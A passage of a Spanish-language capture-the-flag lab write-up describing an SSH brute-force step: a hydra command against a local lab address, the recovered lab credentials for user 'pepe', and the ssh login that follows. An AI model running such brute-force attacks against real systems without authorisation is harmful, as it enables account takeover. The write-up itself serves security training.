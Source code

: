     <img src="../img/Pasted_image_20250102223103.png" width="500">
</p>

Intentamos acceder por medio del servicio `SSH` con esas credenciales pero no tuvimos suerte, por lo que intentaré realizar fuerza bruta para ver si conseguimos asignar a cada usuario su contraseña.

### Hydra
Teniendo el diccionario de usuarios personalizado, realiza un ataque de fuerza bruta. 
```
hydra -L users.txt -P passwords.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    <img src="../img/Pasted_image_20250102223403.png" width="500">
</p>
<p align="center">
    <img src="../img/Pasted_image_20250102223403.png" width="500">
</p>
Obtuvimos las credenciales del usuario `pepe`, su contraseña es `P123pepe3456P`. Así que iniciamos sesión en el servicio `SSH` con estas credenciales.
```
ssh pepe@172.17.0.2    # Después ponemos la contraseña P123pepe3456P
```
